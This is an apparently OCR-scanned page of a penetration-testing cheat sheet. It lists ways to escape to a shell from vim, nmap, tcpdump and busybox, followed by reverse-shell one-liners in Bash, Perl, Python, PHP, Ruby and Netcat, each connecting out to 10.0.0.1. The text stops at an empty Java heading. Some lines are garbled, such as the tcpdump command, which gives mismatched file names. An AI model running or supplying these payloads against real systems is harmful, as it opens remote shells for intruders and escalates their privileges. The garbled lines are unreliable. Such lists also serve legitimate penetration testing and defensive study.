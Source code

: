       From within vim `':!bash':`

      From within nmap: `!sh`

      From within tcpdump

         echo $’id\\n/bin/netcat $ip 443 –e /bin/bash’ > /tmp/.test chmod +x /tmp/.test sudo tcpdump –ln –I eth- -w /dev/null –W 1 –G 1 –z /tmp/.tst –Z root

      From busybox  `/bin/busybox telnetd -|/bin/sh -p9999`

- Pen test monkey PHP reverse shell  

    Bash

 Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):

 bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

    PERL

 Here’s a shorter, feature-free version of the perl-reverse-shell:

 perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

 There’s also an alternative PERL revere shell here.
Python

 This was tested under Linux / Python 2.7:

 python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

   PHP

 This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

 php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

 If you want a .php file to upload, see the more featureful and robust php-reverse-shell.
  Ruby

 ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

  Netcat

 Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

 nc -e /bin/sh 10.0.0.1 1234

 If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

 rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

   Java
